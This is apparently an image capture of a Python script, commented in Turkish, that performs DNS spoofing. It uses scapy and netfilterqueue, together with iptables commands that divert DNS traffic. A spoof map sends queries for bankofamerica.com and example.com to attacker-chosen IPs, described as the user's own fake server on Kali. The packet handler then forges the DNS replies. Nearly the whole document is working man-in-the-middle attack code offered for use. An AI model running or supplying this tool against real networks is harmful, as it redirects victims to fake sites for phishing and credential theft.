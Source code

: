 ```python
from scapy.all import IP, UDP, DNS, DNSQR, DNSRR, sniff, send
import netfilterqueue # Linux'ta paketleri kullanıcı alanına yönlendirmek için

# Bu script için netfilterqueue kütüphanesi gerekir: sudo apt install python3-netfilterqueue
# Ayrıca, iptables kuralları ile DNS trafiğini (UDP port 53) QUEUE'ya yönlendirmek gerekir.
# sudo iptables -I FORWARD -j NFQUEUE --queue-num 0  (Eğer trafik forward ediliyorsa)
# veya
# sudo iptables -I OUTPUT -p udp --dport 53 -j NFQUEUE --queue-num 0 (Kendi makinenizden çıkan DNS sorguları için)
# sudo iptables -I INPUT -p udp --sport 53 -j NFQUEUE --queue-num 0 (Kendi makinenize gelen DNS cevapları için)
# Test sonrası kuralları silmeyi unutmayın: sudo iptables -F ve sudo iptables -X

spoof_map = {
    b"bankofamerica.com.": "10.0.2.15", # Kendi sahte sunucu IP'niz (Kali'deki Apache vb.)
    b"example.com.": "192.168.1.100"  # Alan adları sonunda nokta ile olmalı
}

def process_dns_packet(packet):
    scapy_packet = IP(packet.get_payload()) # NFQueue'dan gelen paketi Scapy paketine çevir
    if scapy_packet.haslayer(DNSQR): # DNS Sorgusu mu?
        qname = scapy_packet[DNSQR].qname
        print(f"[*] Yakalanan DNS Sorgusu: {qname.decode()}")
        
        if qname in spoof_map:
            spoofed_ip = spoof_map[qname]
            print(f"[+] {qname.decode()} için sahte cevap gönderiliyor -> {spoofed_ip}")
            
            # Sahte DNS Cevabı Oluştur
            # Orijinal sorgu ID'sini ve kaynak portunu kullan
            dns_answer = DNSRR(rrname=qname, type="A", rclass="IN", ttl=600, rdata=spoofed_ip)
            
            # Orijinal paketten IP ve UDP katmanlarını alıp modifiye et
            spoofed_reply = IP(dst=scapy_packet[IP].src, src=scapy_packet[IP].dst) / \
                            UDP(dport=scapy_packet[UDP].sport, sport=scapy_packet[UDP].dport) / \
                            DNS(id=scapy_packet[DNS].id, qr=1, aa=1, qdcount=1, ancount=1, \
                                qd=scapy_packet[DNSQR], \
                                an=dns_answer)
            
            # checksum'ları Scapy'nin yeniden hesaplaması için sil
            del spoofed_reply[IP].len
            del spoofed_reply[IP].chksum
            del spoofed_reply[UDP].len
            del spoofed_reply[UDP].chksum
            
            packet.set_payload(bytes(spoofed_reply)) # NFQueue paketinin payload'unu değiştir
    
    packet.accept() # Paketi ilet (veya drop() ile düşür)

# def main_dns_spoofer():
#     print("[*] DNS Spoofing aracı başlatılıyor... (iptables kuralları ayarlanmış olmalı)")
#     # IP yönlendirme aktif olmalı (eğer FORWARD zinciri kullanılıyorsa)
#     # os.system("sudo sysctl -w net.ipv4.ip_forward=1") 
#     queue = netfilterqueue.NetfilterQueue()
#     queue.bind(0, process_dns_packet) # 0 numaralı QUEUE'ya bağlan
#     try:
#         queue.run()
#     except KeyboardInterrupt:
#         print("\n[*] DNS Spoofing durduruluyor.")
#         # iptables kurallarını temizle:
#         # os.system("sudo iptables -F")
#         # os.system("sudo iptables -X")
#         # os.system("sudo sysctl -w net.ipv4.ip_forward=0") # Eğer açıldıysa
```